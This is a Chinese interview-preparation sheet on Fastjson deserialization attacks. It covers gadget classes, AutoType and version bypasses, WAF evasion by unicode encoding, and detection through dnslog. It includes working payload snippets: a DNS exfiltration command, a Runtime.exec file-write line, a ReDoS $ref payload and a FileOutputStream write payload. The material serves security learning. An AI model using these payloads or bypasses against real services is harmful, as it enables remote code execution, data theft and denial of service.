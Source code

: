 # Fastjson

### 使用`JSON.parse()`和`JSON.parseObject()`的不同（★）[+]

(镜像问题:

**fastjson怎么将json转换成对象的，简单描述一下**

)

前者会在JSON字符串中解析字符串获取`@type`指定的类，后者则会直接使用参数中的`class`，并且对应类中(符合规范的)所有`getter`和`setter`都会被调用



### 什么情况下反序列化过程会反射调用`getter`（★）[+]

(镜像问题:

**fastjson为什么会造成反序列化？**

)

符合`getter`规范的情况且不存在`setter`



### 如果不存在`setter`和`getter`方法可以反射设置值吗（★）[+]

需要服务端开启`Feature.SupportNonPublicFiel`参数，实战无用



### Fastjson在反序列化`byte[]`类型的属性时会做什么事情（★）[+]

将会在反序列化时进行`base64`编码



### 谈谈常见的几种Payload（★★★）[+]

首先是最常见的`JdbcRowSetImpl`利用`JNDI`注入方式触发，**需要出网**

利用`TemplatesImpl`类比较鸡肋，**需要服务端开启特殊参数**

不出网的利用方式有一种`BasicDataSource`配合`BCEL`可实现`RCE`

另外某个版本之后支持`$ref`的功能，也可以构造一些Payload



### 是否存在不出网的Fastjson利用方式（★★★）

第一种是`TemplatesImpl`类加载字节码做到不出网利用，但需要开启特殊参数(`Feature.SupportNonPublicField`)实战鸡肋. (分为命令执行和内存马)

- 如何让它有回显：

  - dnslog外带:	

    ```md
    `whoami`.xxxxxx.dnslog.cn
    ```

  - 静态资源写⽂件:

    假设已经知道⽹站路径，拼接路径为：

    ```md
    /root/java_vuln_code-master/src/main/resources/static/js/consoleinfo.js
    ```

    则命令参数这么写:

    ```java
    Runtime.getRuntime().exec("whoami >> /root/java_vuln_code-
    master/src/main/resources/static/js/consoleinfo.js");
    ```

    

第二种方式是服务端存在在`tomcat-dbcp.jar`情况下，使用`BasicDataSource`配合`BCEL`可实现不出网`RCE` (同样能通过此方式写内存马)	——[浅析FastJson不出网利用方式](https://forum.butian.net/share/2040)

​											

### 谈谈1.2.47版本之前各个小版本的绕过（★★★）[+]

首先是利用解析问题可以加括号或大写L绕过低版本，高版本利用了哈希黑名单，之所以要哈希是因为防止黑客进行分析。但黑名单还是被破解了，有师傅找到可以绕过了类。在1.2.47版本中利用缓存绕过



### Fastjson应该如何探测（★★）[+]

使用`dnslog`做检测是最常见的方式，利用`java.net.Inet[4][6]Address`或`java.net.InetSocketAddress`或`java.net.URL`类，之所以使用这三个因为不在黑名单中，可以直接检测。

[对应文章](https://gv7.me/articles/2020/several-ways-to-detect-fastjson-through-dnslog/)

除了这种方式，还可以自行实现虚假的`JNDI Server`作为反连平台，用`JdbcRowSetImpl`这样的`Payload`来触发

如果不能出网，可以结合不出网的利用方式和中间件的回显手段，执行无害命令检测，或利用报错回显



### 谈谈1.2.68版本的绕过（★★）[+]

1.2.68之前的66和67可以利用`JNDI`相关类，比如`Shiro`的`JndiObjectFactory`和`ignite`项目的类

1.2.68中有一个期望类属性，实现了期望接口的类可以被反序列化

利用类必须是`expectClass`类的子类或实现类，并且不在黑名单中，即可直接绕过`AutoType`检测，例如常见的`AutoCloseable`

这样的Payload通常第一个`@type`是`AutoCloseable`等合法类，第二个`@type`是恶意类，后续参数是恶意类需要的参数



### 谈谈Fastjson的WAF Bypass手段（★★★）[+]

Fastjson默认会去除键值外的空格、\b、\n、\r、\f等字符，同时还会自动将键值进行`unicode`与十六进制解码

例如针对`@type`的绕过：`\u0040\u0074\u0079\u0070\u0065`

加入特殊字符的绕过：`{\n"@type":"com.sun.ro wset.JdbcRowSetImpl"...}`



### 除了RCE还能有什么利用（★★★）

信息泄露或者ReDoS，参考下方Payload

```json
{
    "regex":{
        "$ref":"$[\blue = /\^[a-zA-Z]+(([a-zA-Z])?[a-zA-Z]*)*$/]"
    },
    "blue":"aaaaaaaaaaaaaaaaaaaaaaaaaaaa!"
}
```

还可以实现写文件，例如以下这个针对1.2.68写文件的Payload

```json
{
  "@type": "java.lang.AutoCloseable",
  "@type": "java.io.FileOutputStream",
  "file": "/tmp/nonexist",
  "append": "false"
}
```



### 是否了解自动挖掘Fastjson利用链的方式（★★★★）

利用链主要集中在`getter`和`setter`方法中，如果`getter`或者`setter`的方法中存在一些危险操作比如`JNDI`查询，如果参数可控就可以导致`JNDI`注入

简单来说，直接搜对应项目中`JNDI`的`lookup`方法，可以基于`ASM`解压分析`Jar`包，这种半自动结合人工审核的方式其实很好用（之前挖到过几个）

进一步来说，全自动的方式可以使用`codeql`或`gadget-inspector`工具来做，主要是加入了污点传递，分析`getter/setter`参数如何传递到`lookup`

关于全自动分析原理，一般面试官不会问太深入，因为可能涉及到静态分析相关的技术，如果是实验室可能需要进一步学习